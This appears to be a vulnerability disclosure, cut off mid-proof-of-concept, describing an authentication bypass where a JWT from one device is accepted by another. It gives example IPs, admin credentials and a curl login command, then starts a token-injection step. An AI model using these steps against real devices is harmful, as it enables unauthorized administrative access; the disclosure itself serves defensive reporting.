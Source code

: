 
## Affected Component(s)
- **Session Handling:** Improper validation of JWT tokens across devices.  
- **Authentication:** Failure to bind JWT tokens to a specific device or session.  
- **Authorization:** Lack of proper scope and audience validation for JWT tokens.  

---

## Attack Vector(s)
- **Access Method:** Remote, over HTTP.  
- **Authentication Requirement:** None (bypass via token injection).  
- **Exploit Complexity:** Low (manual token injection).  

---

## Proof of Concept (PoC)
### 1. Scenario Overview
**Device 1**:  
- IP Address: `137.18.2.1`  
- Username: `admin`  
- Password: `passd1`  

**Device 2**:  
- IP Address: `208.129.3.4`  
- Username: `admin`  
- Password: `pworld2`  

---

### 2. Exploit Steps
✅ **Step 1: Obtain JWT Token from Device 1**  
Log into Device 1 using valid credentials to obtain a JWT token:

```bash
curl -X POST 'http://137.18.2.1/login' \
-H 'Content-Type: application/json' \
--data-raw '{
  "username": "admin",
  "password": "passd1"
}'
```
Example Response:

```json
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```
✅ **Step 2: Inject JWT Token into Browser's Local Storage on Device 2**

    1. Open the browser on Device 2 at http://208.129.3.4/
